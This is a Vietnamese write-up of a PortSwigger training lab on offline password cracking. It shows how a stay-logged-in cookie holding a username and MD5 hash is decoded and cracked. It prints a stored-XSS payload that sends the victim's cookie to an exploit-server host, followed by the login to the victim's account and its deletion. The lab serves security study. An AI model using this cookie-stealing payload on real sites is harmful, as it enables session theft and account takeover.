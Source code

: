 # Write-up: Offline password cracking

### Tổng quan
Khai thác lỗ hổng trong cookie stay-logged-in để lấy mật khẩu của tài khoản carlos thông qua giải mã hash, sử dụng XSS để đánh cắp cookie, sau đó đăng nhập và xóa tài khoản của anh ta.

### Mục tiêu
- Lấy cookie `stay-logged-in` của `carlos` và giải mã để tìm mật khẩu.
- Đăng nhập vào tài khoản `carlos` và xóa tài khoản từ trang "My account".


### Thông tin đăng nhập
- Tài khoản đăng nhập wiener peter
- Tài khoản nạn nhân carlos

### Công cụ sử dụng
- Burpsuite Community
- Firefox Browser
- Exploit Server:  Để lưu trữ payload XSS và lấy cookie của `carlos`.

### Quy trình khai thác
1. **Thu thập thông tin (Recon)**
- Đăng nhập vào tài khoản `wiener`:`peter`, chọn tùy chọn "Stay logged in".
    ![stay](./images/stay.png)
- Kiểm tra cookie stay-logged-in, nhận giá trị: `d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`
    ![code](./images/code.png)
- Giải mã cookie: 
    - Decode base64: `d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw` → `wiener:51dc30ddc473d43a6011e9ebba6ca770`.
    - Phân tích: Chuỗi có dạng `username:hash`. Hash `51dc30ddc473d43a6011e9ebba6ca770` là MD5 của `peter`
    ![decode](./images/decode.png)

- **Kết luận**: Cookie **stay-logged-in** chứa username và MD5 hash của mật khẩu, có thể giải mã nếu lấy được cookie của **carlos**.

2. **Khai thác XSS để lấy cookie**
- Kiểm tra chức năng comment trên trang, thử payload XSS:
    ```
    <script>hello</script>
    ```
    ![xss](./images/xss.png)
    - Kết quả: Payload hoạt động, xác nhận có lỗ hổng XSS.

- Tạo payload XSS để đánh cắp cookie bằng chức năng comment:
    ```
    <script>document.location='https://exploit-0a3700cf048551d8802b0c6a01000063.exploit-server.net/exploit?cookie='+document.cookie</script>
    ```
    - Kiểm tra access log trên exploit server, lấy cookie `stay-logged-in` của `carlos`: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz`
        ![lỗi](./images/stealed.png)

- Giải mã cookie:
    - Decode base64: `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz` → `carlos:26323c16d5f4dabff3bb136f2460a943`.
    - Hash `26323c16d5f4dabff3bb136f2460a943` là MD5 của `onceuponatime`
    ![pass](./images/pass.png)

3. **Khai thác (Exploitation)**
- Vào phần `/login` và đăng nhập `carlos`:`onceuponatime` và chọn delete account để hoàn thành lab
    ![vào](./images/success.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng XSS để đánh cắp cookie chứa thông tin nhạy cảm.
- Nhận thức tầm quan trọng của việc mã hóa an toàn cookie session và bảo vệ chức năng comment khỏi XSS.

### Tài liệu tham khảo
- PortSwigger: Authentication vulnerabilities

### Kết luận
Lab này giúp tôi nắm rõ cách khai thác XSS để lấy cookie, giải mã hash mật khẩu, và xóa tài khoản nạn nhân. Kỹ năng này nhấn mạnh tầm quan trọng của việc bảo mật cookie và ngăn chặn XSS. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.